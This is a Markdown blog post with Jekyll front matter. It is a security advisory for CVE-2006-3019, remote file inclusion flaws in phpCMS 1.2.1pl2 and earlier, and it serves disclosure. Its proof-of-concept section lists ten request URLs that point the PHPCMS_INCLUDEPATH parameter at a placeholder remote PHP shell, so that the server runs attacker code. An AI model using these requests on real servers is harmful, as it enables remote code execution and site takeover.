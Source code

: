 ```yaml
---
layout: post
title:  "CVE-2006-3019 – phpCMS <= 1.2.1pl2 - Multiple Vulnerabilities"
date:   2006-06-12 00:00:00
categories: security cve
permalink: post/CVE-2006-3019-phpcms-multiple-vulnerabilities/
---
```


### Vendor

> phpCMS is more than just a content management system: it is also a templating engine and an application framework.

[http://www.phpcms.de/][phpcms]

[phpcms]:	http://www.phpcms.de/	"phpCMS"

### Description

Multiple PHP remote file inclusion vulnerabilities in `phpCMS 1.7 - 1.2.1pl2` (other versions may also be affected) allow remote attackers to execute arbitrary PHP code via a URL in the `PHPCMS_INCLUDEPATH` parameter.

### Affected Files

* (1) class.parser_phpcms.php,
* (2) class.session_phpcms.php,
* (3) class.edit_phpcms.php,
* (4) class.http_indexer_phpcms.php,
* (5) class.cache_phpcms.php,
* (6) class.search_phpcms.php,
* (7) class.lib_indexer_universal_phpcms.php,
* (8) class.layout_phpcms.php,
* (9) parser/plugs/counter.php,
* (10) parser/parser.php.

### Proof of Concept

**~** stands for `[php-shell-url]`

1. http://localhost/[pc_path]/parser/include/class.parser_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
2. http://localhost/[pc_path]/parser/include/class.session_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
3. http://localhost/[pc_path]/parser/include/class.edit_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
4. http://localhost/[pc_path]/parser/include/class.http_indexer_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
5. http://localhost/[pc_path]/parser/include/class.cache_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
6. http://localhost/[pc_path]/parser/include/class.search_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
7. http://localhost/[pc_path]/parser/include/class.lib_indexer_universal_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
8. http://localhost/[pc_path]/parser/include/class.layout_phpcms.php?PHPCMS_INCLUDEPATH=
**~**
9. http://localhost/[pc_path]/parser/plugs/counter.php?PHPCMS_INCLUDEPATH=
**~**
10. http://localhost/[pc_path]/parser/parser.php?PHPCMS_INCLUDEPATH=
**~**/

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3019][mitre]
* [http://www.securityfocus.com/bid/21768][securityfocus]
* [http://www.osvdb.org/26388][osvdb]
* [http://secunia.com/advisories/20573][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3019 "CVE 2006-3019"
[securityfocus]:	http://www.securityfocus.com/bid/21768						"SecurityFocus-21768"
[osvdb]:			http://www.osvdb.org/26388									"OSVDB-26388"
[secunia]:			http://secunia.com/advisories/20573							"Secunia-20573"